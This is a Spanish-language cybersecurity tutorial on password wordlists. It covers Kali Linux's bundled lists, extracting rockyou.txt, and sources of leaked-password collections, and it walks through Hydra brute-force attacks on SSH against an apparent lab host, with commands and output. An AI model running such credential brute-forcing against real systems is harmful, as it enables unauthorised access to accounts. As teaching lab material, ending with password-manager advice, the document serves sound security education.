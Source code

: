 # Diccionarios

Los diccionarios o _wordlists_ son archivos y bases de datos que contienen caracteres / series de contraseñas comunes (y aleatorias), subdominios, etcétera, que son usados en los ataque de _Fuerza Bruta_. Vamos a ver los wordlists locales que viene en Kali Linux y en dónde descargar los wordlists más comunes en la web.

## _Wordlists_ locales

Como sabemos, Kali Linux es una distro enfocada a la ciberseguridad, y como tal ya tiene diccionarios precargados para su utilización. Para verlos, ejecutamos el siguiente comando:

```sh
$> wordlists

> wordlists ~ Contains the rockyou wordlist

/usr/share/wordlists
├── amass -> /usr/share/amass/wordlists
├── dirb -> /usr/share/dirb/wordlists
├── dirbuster -> /usr/share/dirbuster/wordlists
├── dnsmap.txt -> /usr/share/dnsmap/wordlist_TLAs.txt
├── fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
├── fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
├── john.lst -> /usr/share/john/password.lst
├── legion -> /usr/share/legion/wordlists
├── metasploit -> /usr/share/metasploit-framework/data/wordlists
├── nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
├── rockyou.txt.gz
├── sqlmap.txt -> /usr/share/sqlmap/data/txt/wordlist.txt
├── wfuzz -> /usr/share/wfuzz/wordlist
└── wifite.txt -> /usr/share/dict/wordlist-probable.txt

Do you want to extract the wordlist rockyou.txt? [Y/n]
```

Como verás, este comando muestra el contenido de _/usr/share/wordlists_, y al final de la salida pregunta si queremos extraer el contenido de _rockyou.txt.gz_, una de las wordlists más "conocidas" en el mundo de la ciberseguridad. Responde que _no (n)_ porque vamos a aprender cómo extraer manualmente este tipo de archivos comprimidos desde la terminal.

> Nota: _/usr/share/wordlists_ contiene directorios de herramientas como _Metasploit_, los cuales contienes wordlists específicos que se usan con la herramienta propia. Entra a las carpetas que te interesen y lo verás.

2. Navega hasta el path _/usr/share/wordlists_, copia el archivo a tu carpeta de usuario (recuerda que es _~_), ejecuta el comando para descomprimir el archivo y cuenta cuantas contraseñas tiene esa wordlist:

```sh
$> cd /usr/share/wordlists
$> ls
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt.gz  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt      wifite.txt
$> cp rockyou.txt.gz ~    
$> cd ~                   
$> ls
Desktop  Documents  Downloads  go  ms2  Music  Pictures  Public  rockyou.txt.gz  Templates  Videos
$> gunzip -d rockyou.txt.gz                       
$> ls
Desktop  Documents  Downloads  go  ms2  Music  Pictures  Public  rockyou.txt  Templates  Videos
$>wc -l rockyou.txt                                                                                    14344392 rockyou.txt
```

- _cp_ es el comando para copiar un archivo en la terminal.
- _gunzip_ es la aplicación para descomprimir un _*.gz_, es similar a _Winrar_ con los archivos _*.rar o *.zip_.
- Hay _1,434,4392_ de contraseñas en el archivo _rockyou.txt_, entre más contraseñas mayor probabilidad será que el ataque de fuerza bruta sea exitoso.

## Descargar wordlists

Aquí está una lista de URLs para descargar diccionarios útiles para tus laboratorios de ciberseguridad:

1. https://github.com/ignis-sec/Pwdb-Public

- Este es un repositorio de GitHub que tiene cientos de miles de contraseñas en sus archivos de wordlists obtenidas de base de datos filtradas (powned). Cabe destacar que antes el creador del repo se llamaba _FlameOfIgnis_ y ahora se llama _ignis-sec_.

2. https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm

- Sitio en donde podemos encontrar 2 diccionarios: una lista de 15 GB y otra de 648 MB. Se pueden descargar tanto en formato *.gz como por medio de _torrent_ (archivo para la descarga directa de recursos por el protocolo _P2P_).

3. https://weakpass.com/download

- Sitio que contiene links de descarga de wordlists para diferentes usos, los podemos encontrar con el formato _*.7z (otro formato comprimido,)_ o torrent.

> Nota: Para descomprimir los archivos _*.7z_ (ya que gunzip está solamente diseñado para archivos *.gz), instala el siguiente paquete _sudo apt-get install p7zip-full_ y ejecuta _7z x archivo.7z_.

4. https://github.com/danielmiessler/SecLists

- Repositorio de GitHub que contiene directorios de wordlists clasificado para su uso (passwords, fuzzing, etcétera), además contiene un paquete especial para Kali Linux: _apt -y install seclists_.

# Usar wordlists con Hydra

_Hydra_ es una herramienta de ataques de fuerza bruta a servicios con FTP y SSH. Una vez que obtengamos el archivo _rockyou.txt_, vamos a usarlo con esta herramienta:

1. Instala los siguientes paquetes, uno es hydra o otro es kali-tweaks, un paquete que añade compatibilidades a los servicios de Kali Linux.

```sh
$> apt install hydra kali-tweaks
```

> Nota: En las versión actuales de Kali Linux, ya vienen preinstaladas.

2. En el directorio en donde descomprimiste _rockyou.txt_, ejecuta el siguiente comando:

```sh
$> hydra -L ms2/users.txt -P rockyou.txt -t 4 ms2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-16 19:34:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100410793 login tries (l:7/p:14344399), ~25102699 tries per task
[DATA] attacking ssh://ms2:22/
[ERROR] could not connect to ssh://10.0.2.5:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
```

Observamos que _hydra_ no pudo ejecutar el ataque, debido a que su software de SSH no cuenta con compatibilidad de seguridad _ssh-rsa_, lo cual nos pasó cuando intentamos hacer la conexión SSH manualmente y tuvimos que agregar una bandera para la retrocompatibilidad.

3. Para añadir compatibildad completa con los algoritmos de seguridad de SSH, vamos a ejecutar _kali-tweaks_, y no aparece una interfaz "grafica" pero que se maneja con el teclado (muy curioso y este fue por muchos años las interfaces de instalación de SOs basados en Linux). Nos vamos a la primera opción _Hardening_, despues con las teclas de dirección nos vamos a _SSH Client_ y lo seleccionamos con la tecla de barra espaciadora, nos aparece una pantalla de confirmación y le damos _Apply_, y en la terminal nos indica que presiones _Enter_ para volver al menú, y le damos a _Quit_.

4. Ahora vuelve a ejecutar el comando de _hydra_, y el ataque ha iniciado. Una vez que vayan apareciendo unos cuantos de los mensajes de _STATUS_, interrumpe el comando con _Ctrl + C_:

```sh
$> hydra -L ms2/users.txt -P rockyou.txt ms2 -t 4 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-16 20:04:35
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100410793 login tries (l:7/p:14344399), ~25102699 tries per task
[DATA] attacking ssh://ms2:22/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 100410693 to do in 16735:07h, 4 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 100410497 to do in 16961:14h, 4 active
[STATUS] 101.29 tries/min, 709 tries in 00:07h, 100410084 to do in 16522:35h, 4 active
[STATUS] 102.13 tries/min, 1532 tries in 00:15h, 100409261 to do in 16385:20h, 4 active
^X@sS^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Entenderás el _por qué_ tarda mucho los ataques de fuerza bruta ...

- Teniendo en cuenta que en los archivos de users.txt hay 7 usuarios y más de 1.4 millones de contraseñas en el archivo de _rockyou.txt_ (100,410,793 intentos), las combinaciones entre los 2 archivos son muchísimas, y como a _hydra_ con 4 hilos (4 intentos de conexión a SSH a la vez), los STATUS nos dicen que va a una velocidad de 100 intentos _por minuto_.
- Los ataque de este tipo no sólo dependerán de nuestro hardware en el que correo nuestro Kali Linux, agregando:
  - Velocidad de conexión a internet.
  - Prestaciones del host víctima respecto al servicio a atacar, por eso algunos ataques que usamos _hydra para no llenar de peticiones de conexión a SSH nos pide que pongamos valor a la opción de -t_.

Y en este tipo de ataques, es un recordatorio de que _la paciencia es una virtud_.

> Nota: La bandera de hydra _-R_ permite reanudar el ataque, es útil para quienes pausaron la ejecución pero quieren retomarla más adelante.
> Nota: La opción de hydra _-w_, que permite ajustar el tiempo de espera en segundos entre intentos para evitar bloqueos de sesión.

## Reflexión final

Para los ataques de fuerza bruta con el objetivo de obtener acceso a un host víctima, necesitamos listas de contraseñas para _probar_ credenciales _usuario-password_, debido a que nosotros como seres humanos tendemos a reutilizar información, y las contraseñas no son la excepción. Por esa razón, los ciber-criminales hacen esfuerzos para utilizar bases de datos con las credenciales que se encuentran en los diccionarios o _wordlists_.

Recuerda que como mínimo hay 2 caras de la moneda, siendo la otra cara de la ciberseguridad los _white-collar hackers_ o _profesionales TI de ciberseguridad_, siendo estos los que utilizan estos conocimientos para la **defensa y prevención** de sus sistemas informáticos.

Otro recordatorio es usar los _Password Managers_ para almacenar y generar contraseñas que es muy improbable que estén en las wordlists que hemos visto aquí.
